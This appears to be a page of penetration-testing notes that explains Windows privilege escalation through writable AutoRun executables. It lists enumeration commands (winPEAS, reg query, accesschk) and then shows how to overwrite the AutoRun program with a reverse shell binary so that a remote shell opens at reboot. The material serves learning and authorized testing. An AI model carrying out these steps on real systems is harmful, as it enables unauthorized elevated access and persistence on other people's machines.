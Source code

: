 # AutoRuns

Windows can be configured to run commands at startup, with elevated privileges. These “AutoRuns” are configured in the Registry. If you are able to write to an AutoRun executable, and are able to restart the system \(or wait for it to be restarted\) you may be able to escalate privileges.

Use winPEAS to check for writable AutoRun executables:

```text
winPEASany.exe quiet applicationsinfo
```

![](../../../../../.gitbook/assets/image%20%28148%29.png)

Alternatively, we could manually enumerate the AutoRun executables:

```text
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and then use accesschk.exe to verify the permissions on each one:

```text
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```

![](../../../../../.gitbook/assets/image%20%28150%29.png)

The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:

```text
copy "C:\Program Files\Autorun Program\program.exe" C:\Temp
```

Copy our reverse shell executable to overwrite the AutoRun executable:

```text
copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\AutorunProgram\program.exe"
```

![](../../../../../.gitbook/assets/image%20%28154%29.png)

now start a listener on attacker machine and wait for the system to reboot, the autorun task will start and you will get a remote shell.

{% hint style="info" %}
on windows 10 the exploit will be triggered with the privileges of the last logged on user. so it is possible that we get another shell with the same user privileges. 
{% endhint %}





